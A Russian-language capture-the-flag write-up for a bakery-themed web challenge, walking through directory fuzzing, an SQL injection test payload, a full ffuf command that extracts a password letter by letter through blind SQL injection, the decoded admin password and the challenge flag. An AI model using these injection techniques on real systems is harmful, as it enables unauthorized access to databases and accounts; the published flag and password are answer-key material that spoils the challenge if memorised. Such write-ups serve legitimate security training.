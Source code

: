 # Пирожки

Ну вот опять описание забыл...

Пусть будет: Очень люблю когда пирожки можно достать с помощью SQL injection

# WriteUp
1.  Встречает страничка Булошной

![1](images/1.png)

На одной из страниц бинарный текст

![2](images/2.png)

Да... Опять этот ****** фаззинг ...

Декодирование дает подсказку

2.  Начинаем фазить директории, например wfuzz словарем directory-list-2.3-medium.txt
Находим директорию JS, а в ней файл profootball.txt

![3](images/3.png)

Здесь видим намек на слепую SQL

3.  Находим уязвимое поле ввода путем ввода полезной нагрузки ‘ or 1=1 -- -

![4](images/4.png)

можно перебирать так же FFUZ побуквенно название таблиц, колонок и содержимого

```bash
ffuf -u "http://sqlbrute/index.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "check=%27+or+substring((select base64_pw from passwords limit 2,1), WFUZZ, 1)='HFUZZ'--+-" -c -t 130 -w bukvy.txt:HFUZZ -w length.txt:WFUZZ -mc all -fs N
```

Находим пароль админа VVRyeUhhY2tSREdDVEYhPz8/IT8hPw==
<br>Декодируем и получаем UTryHackRDGCTF!???!?!?

4.  Входим в «админку» с логином admin и паролем UTryHackRDGCTF!???!?!?

![5](images/5.png)

# Flag
RDGCTF{U_can_do_fuzz_and_blinde_SQL}